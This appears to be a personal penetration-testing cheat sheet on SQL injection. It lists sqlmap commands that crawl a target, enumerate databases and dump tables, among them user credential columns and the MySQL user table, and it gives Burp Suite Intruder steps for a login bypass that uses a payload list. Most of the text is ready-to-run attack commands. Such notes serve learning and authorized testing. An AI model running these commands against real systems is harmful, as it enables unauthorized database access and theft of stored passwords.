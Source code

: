 
### Get

sqlmap -u "http://*target*/index.php?id=1" --dbms=mysql

### Crawl

sqlmap -u http://*target* --dbms=mysql --crawl=3


### Sql-login-bypass

https://xapax.gitbooks.io/security/content/sql-injections.html


1.	Open Burp-suite
2.	Make and intercept a request
3.	Send to intruder
4.	Cluster attack.
5.	Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
6.	Attack
7.	Check for response length variation


Refer to your kindle 
•	SQL Injection Attacks and Defense
•	The browser hacker handbook 

```



```


### burp SQL map Login trick


open up burp and intercept that login page with admin & admin

copy the intercepted text out and paste it into a burp-post.txt

```
sqlmap --level=5 --risk=2 -r burp-post.txt --dbs

sqlmap -o -r burp-post.txt -D Webapp --tables

sqlmap -o -r burp-post.txt -D Webapp -T Users --columns

sqlmap -o -r burp-post.txt -D Webapp -T Users -C id,username,password --dump

OR

sqlmap -o -r burp-post.txt -D Webapp -T Users --dump

sqlmap -o -r burp-post.txt -D mysql --tables

sqlmap -o -r burp-post.txt -D mysql -T user -C User,Password --dump

```
